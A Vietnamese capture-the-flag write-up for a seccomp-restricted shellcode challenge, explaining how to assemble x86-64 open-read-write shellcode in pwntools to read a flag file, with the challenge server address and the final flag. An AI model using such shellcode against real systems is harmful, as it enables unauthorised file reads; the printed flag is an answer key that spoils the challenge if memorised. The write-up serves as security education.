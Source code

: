 # ⛳ Shellcode

- Description: dễ mà tự viết đi trên trên mạng không có đâu
  - Bắt buộc dùng open, read, write để đọc flag
  - Không cần quan tâm đến seccomp
  - Dùng syscall ngoài open, read, write sẽ bị khóa
  - nc 45.122.249.68 10017
- Hint:
  - Bạn Nhật Trường có một bài blog tương tự bài này trên x86, thử chuyển code sang x86-64 bạn sẽ giải được bài này link: https://drx.home.blog/2019/04/03/pwnable-tw-orw/

## Write-up:

Disassemble hàm main, ở đây ta thấy có hàm **setup_seccomp** sau khi chúng ta input bằng hàm **read@plt**.

```
0x000000000000132f <+122>:   call   0x10f0 <read@plt>
0x0000000000001334 <+127>:   mov    eax,0x0
0x0000000000001339 <+132>:   call   0x1209 <setup_seccomp>
```

Vào xem thử hàm **setup_seccomp** làm gì trên IDA.

![image](https://user-images.githubusercontent.com/48288606/147545255-85432ebe-de11-4b03-99ee-5edfab194115.png)

Theo như đoạn mã giả và tìm kiếm về seccomp (secure computing mode) thì **setup_seccomp** chỉ là một hàm định nghĩa các rule để giới hạn lại và quy định các **system call**. Đại khái, chương trình thực hiện khởi tạo seccomp rule bằng **seccomp_init()**, thêm rule bởi hàm **seccomp_rule_add()** và ta thấy có 3 dòng để set rule cho 3 system call là "read/ write/ open" và dùng **seccomp_load()** để apply các rule vào kernel.<br>
=> Vậy cho nên theo như hint thì thật ra chúng ta không cần xem đoạn này, hint đã gợi ý chỉ được dùng **open, read, write** trong shellcode để đọc flag.

Khi chạy chương trình ta biết được flag nằm trong file "PhaPhaKhongCoDon.txt"
```
Use open, read, write to get flag, flag is in PhaPhaKhongCoDon.txt
```
### Viết shellcode:

Với 3 system call trên, ta dự định sẽ thực hiện lần lượt: open(mở stream đọc file) -> read(đọc dữ liệu từ stream cho trước và đưa vào buffer) -> write(ghi dữ liệu từ buffer ra output stream). Bây giờ ta sẽ xác định các parameter đưa đúng theo quy ước gọi syscall [tại đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (Table x86_64 (64-bit))

Khởi tạo stack, lưu ý trên x86_64 không push trực tiếp một giá trị hằng vào stack được nên phải thông qua thanh ghi

Code:
```
        'mov r8, %s' % hex(u64('.txt\0\0\0\0')),
        'mov r9, %s' % hex(u64('ongCoDon')),
        'mov r10, %s' % hex(u64('PhaPhaKh')),
        'push r8',
        'push r9', 
        'push r10', 
```

Lệnh open() - [Official manual](https://man7.org/linux/man-pages/man2/open.2.html):
- %rax: 0x02
- arg0 (%rdi): const char \*filename .Ở đây mình sẽ đưa chuỗi "PhaPhaKhongCoDon.txt" vào và vì kiến trúc 64bits nên size tối đa là 8 bytes, còn thiếu thì đệm thêm byte NULL vào chuỗi để không ảnh hưởng quá trình gọi syscall
- arg1 (%rsi): int flags. Chế độ cho stream open. Được định nghĩa trong file `/usr/include/asm-generic/fcntl.h` vì hàm **open()** được tạo trong thư viện **fcntl.h**. Mình có thể search để biết các giá trị này nhanh hơn. Do ban đầu đọc manual mình không rõ cách truyền vào mấy flags này nên mới đào sâu vậy 😊. Ở đây mình chỉ đọc (O_RDONLY) nên dùng **0x0**.
```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
```

Code:
```
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rdi, rsp',
        'mov rax, 0x2',
        'syscall',
```

- arg2 (%rdx): umode_t mode. (Định nghĩa permission cho file). Ta dùng **0x0** 
- Return value: trả về file descriptor lưu trong rax.

Lệnh read() - [Official manual](https://man7.org/linux/man-pages/man2/read.2.html). Tương tự:
- %rax: 0x00
- arg0 (%rdi): unsigned int fd. Đưa file descriptor từ stream open ở trên vào. 
- arg1 (%rsi): char \*buf. Nhét chuỗi trên vào
- arg2 (%rdx): size_t count. Size của buffer để đọc, cho tùy ý miễn đủ đọc flag.
- Return value: Số lượng byte được đọc thật sự được trả về

Code:
```
        'mov rsi, rsp',
        'mov rdi, rax',  
        'mov rdx, 0x100',
        'mov rax, 0x0',  
        'syscall',
```
Lệnh write() - [Official manual](https://man7.org/linux/man-pages/man2/write.2.html). Tương tự:
- %rax: 0x01
- arg0 (%rdi): unsigned int fd. File descriptor đưa ra ngoài output nên phải dùng stream của STDOUT là **0x1**
- arg1 (%rsi): const char \*buf. Tham số này không quan trọng vì ta đã xác định đưa chuỗi ký tự cần ghi ra ngoài STDOUT stream rồi
- arg2 (%rdx): size_t count

Code:
```
        'mov rdi, 0x1',
        'mov rdx, rax',
        'mov rax, 0x1',
        'syscall'
```

Tham khảo code exploit hoàn chỉnh [tại đây](shellcode.py)

Thử với file test:

![image](https://user-images.githubusercontent.com/48288606/147572424-1476d6b7-f812-44d2-b429-b7099ebac9fc.png)


Flag: **Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**
